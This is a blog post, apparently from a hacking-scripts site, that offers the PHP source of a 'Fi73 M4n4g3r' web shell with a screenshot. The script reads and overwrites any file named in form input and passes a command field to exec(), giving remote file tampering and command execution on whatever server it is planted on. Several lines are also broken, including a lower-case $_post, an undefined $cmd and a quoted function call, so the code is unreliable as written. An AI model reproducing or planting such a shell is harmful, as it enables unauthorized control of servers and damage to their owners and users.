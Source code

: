 ```yaml
---
id: 311
title: Fi73 M4n4g3r script
author: admin
layout: post
guid: http://hackingscripts.com/?p=311
permalink: /fi73-m4n4g3r-script/
categories:
  - PHP
tags:
  - file manager
  - PHP
---
```

Fi73 M4n4g3r script

### Fi73 M4n4g3r script source code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
$file = $error = $file_content = "";
if(isset($_POST["file"]) and (isset($_POST["modify"]))){

	$file = $_POST["file"];
	if(! file_exists("$file")) 
	{
		$error = "File $file doesnt exist!";
	}
	else
	{
		$file_content = "&lt;&lt;&lt;_END";
		echo "&lt;PRE&gt;";
		echo "file_get_contents($file)";
		echo "&lt;/PRE&gt;";
		_END;
	}
}
if(isset($_POST["file"]) and (isset($_POST["modify"])))
{
	$file = $_POST["file"];
	$text = $file_content = $_POST["modify"];
	$fh = fopen("$file" , "r+");
	if(! fwrite($fh , $text))
	{
		$error = "File $file couldnt be overwritten!";
	}
	else $error = "file $file successfully overwritten!";
	fclose($fh);
}
if(isset($_post["cmd"]))
{
	exec($cmd, $output, $status);
	if($status) echo "command failed!";
	else
	{
		echo "&lt;pre&gt;";
	foreach ($output as $line) echo "$line \n";
	}
}
echo &lt;&lt;&lt;_END
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;TITLE&gt;File manager&lt;/TITLE&gt;
&lt;/HEAD&gt;
&lt;BODY&gt;
&lt;CENTER&gt;&lt;H3&gt;Fi73 M4n4g3r&lt;/H3&gt;&lt;/CENTER&gt; 
$error &lt;BR /&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;input type = "text" name = "file" /&gt;
&lt;input type = "submit" value = "Get File"/&gt;
&lt;/form&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;textarea name = "modify" wrap = "off" cols = "15" rows = "20"&gt;
$file_content &lt;/textarea&gt;
&lt;input type = "hidden" name = "file" value = "$file" /&gt;
&lt;input type = "submit" value ="save changes" /&gt;
&lt;/form&gt;
&lt;form method ="post" action = "modifier.php"&gt;
&lt;input type = "text" name = "cmd" /&gt;
&lt;input type = "submit" value = "execute command"/&gt;
&lt;/form&gt;
&lt;/CENTER&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
_END;
?&gt;
</pre>

A screenshot of this very plain and boring looking script:<figure id="attachment_390" style="width: 537px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png" alt="Fi73 M4n4g3r screenshot" width="537" height="557" class="size-full wp-image-390" />][1]<figcaption class="wp-caption-text">Fi73 M4n4g3r screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png